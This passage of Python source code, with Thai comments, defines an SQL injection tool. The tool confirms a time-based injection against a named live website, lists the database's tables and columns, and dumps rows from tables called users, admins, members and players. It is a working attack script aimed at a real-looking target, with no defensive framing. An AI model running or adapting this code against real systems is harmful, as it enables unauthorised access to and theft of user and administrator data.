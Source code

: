 ```python
        
        results = {}
        for key, query in queries.items():
            try:
                result = self.extract_data(query)
                results[key] = result
                print(f"{key}: {result[:100]}...")
            except Exception as e:
                results[key] = f"Error: {e}"
        
        return results
    
    def get_tables(self):
        """Get table names"""
        query = "SELECT name FROM sysobjects WHERE xtype='U'"
        return self.extract_data(query)
    
    def get_columns(self, table_name):
        """Get column names for a table"""
        query = f"SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}'"
        return self.extract_data(query)
    
    def dump_table(self, table_name, columns=None, limit=10):
        """Dump data from a table"""
        if columns:
            cols = '+CHAR(58)+'.join(columns)
            query = f"SELECT TOP {limit} {cols} FROM {table_name}"
        else:
            query = f"SELECT TOP {limit} * FROM {table_name}"
        
        return self.extract_data(query)

# การใช้งาน
if __name__ == "__main__":
    injector = SQLInjector("https://member.panama8888b.com/public/js/v2/app.js")
    
    # ทดสอบ time-based injection
    if injector.time_based_check():
        print("[+] Time-based SQL injection confirmed!")
        
        # ดึงข้อมูลฐานข้อมูล
        print("\n[+] Getting database information...")
        db_info = injector.get_database_info()
        
        # ดึงรายชื่อตาราง
        print("\n[+] Getting table names...")
        tables = injector.get_tables()
        print(f"Tables: {tables}")
        
        # ดึงข้อมูลจากตารางสำคัญ
        important_tables = ['users', 'admins', 'members', 'players']
        for table in important_tables:
            print(f"\n[+] Dumping table: {table}")
            data = injector.dump_table(table)
            print(f"Data: {data[:200]}...")
    
    else:
        print("[-] SQL injection not working")
```
